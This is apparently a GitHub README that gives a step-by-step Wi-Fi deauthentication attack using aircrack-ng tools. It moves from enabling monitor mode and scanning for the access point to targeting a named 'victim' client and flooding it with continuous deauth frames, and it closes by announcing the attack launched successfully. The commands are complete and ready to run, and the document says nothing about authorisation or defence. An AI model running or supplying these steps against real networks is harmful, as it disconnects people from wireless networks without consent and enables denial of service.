



## Deauth attack
1. Enable monitor mode
	`airmon-ng start wlan0`
	`iwconfig`
	
	```lo        no wireless extensions.

	eth0      no wireless extensions. 
	
	wlan0     IEEE 802.11  ESSID:"#SSID# "  
          Mode:Managed  Frequency:2.452 GHz  Access Point: BC:8A:E8:44:73:BF   
          Bit Rate=1 Mb/s   Tx-Power=20 dBm   
          Retry short limit:7   RTS thr:off   Fragment thr:off
          Power Management:on
          Link Quality=66/70  Signal level=-44 dBm  
          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
          Tx excessive retries:0  Invalid misc:162   Missed beacon:0

	wlan1mon  IEEE 802.11  Mode:Monitor  Frequency:2.452 GHz  Tx-Power=20 dBm   
          Retry short  long limit:2   RTS thr:off   Fragment thr:off
          Power Management:off
	```
	
2. Get the BSSID of the Access Point

	`airodump-ng wlan1mon`
	
	
	
3. Search for victim

	`airodump-ng -d <AP> -c <CHANNEL>`
	
	
	
4. Send Deauth 

	`aireplay-ng -0 0 -a <AP> -c <VICTIM> wlan1mon`
	
	
	
	
### Deauth attack Launched Successfully